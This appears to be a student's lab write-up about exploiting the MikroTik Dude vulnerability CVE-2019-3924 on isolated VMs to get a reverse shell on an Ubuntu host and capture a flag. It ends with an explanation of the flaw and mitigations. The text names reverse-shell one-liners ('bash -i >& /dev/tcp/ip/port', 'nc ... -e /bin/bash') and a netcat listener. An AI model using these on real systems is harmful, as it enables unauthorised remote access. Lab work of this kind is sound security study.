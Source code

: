 Okay, cool, we need to do exploit.

The setup is:

| Who                | network_internal | network_nat     |
|--------------------|------------------|-----------------|
| ubuntu vm          | 192.168.100.248  |                 |
| mikrotik router vm | 192.168.100.234  | 192.168.122.107 |
| Kali               |                  | 192.168.122.104 |

The ip for Ubuntu vm was gotten from the mikrotik using DHCP, so IP can change sometimes (I did the lab during a few days). Just bare in mind that if there is an IP 192.168.100.\*, but the \* != 234, then it's Ubuntu.

# VMs & networks

There was some (3h) configuration of VMs (qemu/kvm), because ubuntu did not want to connect to mikrotik, and I tried bridging (which required many scary commands on the host OS), a fully open network (which is bad) and an isolared network (which I settled on), with different VM network adapter types, and finally it did work! Then the plain old NAT worked to connect kali to mikrotik.

![ubuntu connected](img/ubuntu_connected.png)

I could use host OS instead of kali, because ubuntA and mikrotik were on an isolated (even from the host) network, but I decided that would be boring and went for a full blown Kali (but was testing on host).

# CHR

To configure chr, I got scared of the strange shell provided by default, so I went for winbox. However, I did not want to use the heavy altirrely (AUR and wine) and went for a windows 10 VM, which I connected to NAT and configured from. The unfortunate thing was, windows likes storage, and my SSD does not meet its demads, so windows got borked and I still needed to use AUR and wine. Fortunately, it did not bork my main OS yet.

The chr config can be found at [chr_config.txt](chr_config.txt).

# Exploit code

The exploit code is not that hard to make, but there is one problem. It does not compile!

The exploit was found in 2019, and Boost was way different back then. I needed to patch the utils that used some boost functionality to compile with the newer boost. Fortunately, someone has already done similar patches on a random github repository, so I sneakily looked at their pull request and transferred the knowledge to the exploit.

Here you can see the old code sample commented out and the new written:

![exploit patch](img/2_patch_code_for_newer_libraries.png)

Now I just need to init the Ubuntu VM using:

```
/tool fetch url="http://192.168.100.248/init.php\?email=husiev.pn@ucu.edu.ua" http-method=get dst-path=smth.txt
```

# Yay, everything is done - let's launch

Okay, so now we have everything we need, right? right?

Yeah, so when I do init from kali, I get timeouts! What might be wrong???

I had no clue, and could not debug myself out.

Fortunately, if you chroot from host into ubuntu, you can just change the root password - cool. Now you can login and try debugging the application.

It turns out, it uses apache - so we need to look into /var/www - there is a directory `webapp` with lots of scripts. We just need to add debug output into a file (ask Claude 3.7 Sonnet to write some php for debugging) - it turns out, the request is got, but something goes wrong.

Okay, let's add debug prints to init.sh - yay, we found the issue: it does not git clone! wait, what? But I can do `ping github.com` or curl something - why can't I clone? It just hangs trying to clone, and then says something about gnu tls errors - internet has no idea, what went wrong.

A few more hours, and it turns out that if I turn off my VPN, everything starts working - huh?

![Disable vpn](img/3_disable_vpn.png)

Now I just have to listen at port 1337 (using `nc -lvp 1337`) and ask Dude politely to ask Ubuntu politely to create `a.php`, which would pipe bash into 1337 port of host's IP.

# Now everything is alright, right?

Well, no.

It turns out that having 4 VMs (one of which is windows) and 4 browsers opened at the same time, while having 8 GiB of RAM might be a bad idea - slooow.

![pain](img/4_pain.png)

Oh, wait, no no no! Applications go brrrr.

![OOM](img/5_oom.png)

Fortunately, the VMs stayed intact. Now everything has to work.

Well yes, but actually no. The ubuntu does receive the request to create a file `a.php`, it creates the file, but host does not receive any response: neither at port it is listening to for bash, nor as an http response. Damn!

Lots of tries (and some random stuff appearing in mikrotik) later, I managed to make mikrotik ping the host (I believe some rules in the firewal to pass trafic from inside to 192.168.100* resolved the issue, but I'm no longer sure). But the request still fails.

Some time later it turned out that I need to turn off port `1337` in my firewall at host - I should have thought about it earlier!

![firewall off](img/6_firewall.png)

# Yay

It was at this moment that everything worked! Yay!

![yay](img/7_yay.png)

The flag can be found at [flag](flag.txt)

And, to prove that we can't ping the ubuntu from kali:

![can't reach](img/8_can't_reach.png)

And here is Ubuntu's network settings:

[ubuntu_network](ip_a_ubuntu.txt)

# How my code works

Basically things changed:
- From using /upload switch to using /api_upload (and give not only the file, but also the key)
- Change from using `nc ip:port -e /bin/bash` to `bash -i >& /dev/tcp/ip/port 0>&1`
- Remove stuff checking for NUUO NVR
- Add the key to the request (I got it from the rooted ubuntu - I hope it's not a mortal sin...)

The full code can be viewed at [poc/cve_2019_3924/src/main.cpp](poc/cve_2019_3924/src/main.cpp)

# Essay!

So the exploit exploits Mikrotik Dude's vulnerability, which allows to send a request to Mikrotik, and Dude will get confused and send another request we want to a device behind the router (in a LAN network).

Therefore, if the area is assumed to be trusted, we can exploit it, even though it is behind a router. In our case there exists a simple uploader: it takes a file and stores it in the same folder the php file is located. What we do is upload another php file, which will get sources - this way we add our custom endpoint! At this stage the rest is simple: launch bash and pipe it into a socket to the desired ip:port - the attackers ip and port. Now we have bash access!

What can we do? First of all, turn on automatic updates (if mikrotik or another router allows so) - otherwise just regularly update. Secondly, we should imcorporate a zero-trust architecture - we do not trust anyone, even on LAN, and pentest with the assumption that anyone has access to the network. Lastly, the fix for this specific application vulnerability is storing files in a sensitive location. One way to counter this is to make chroot into a subdirectory for files only - thus the attacker couldn't upload files anywhere, except e.g. /var/www/webapp/uploads/
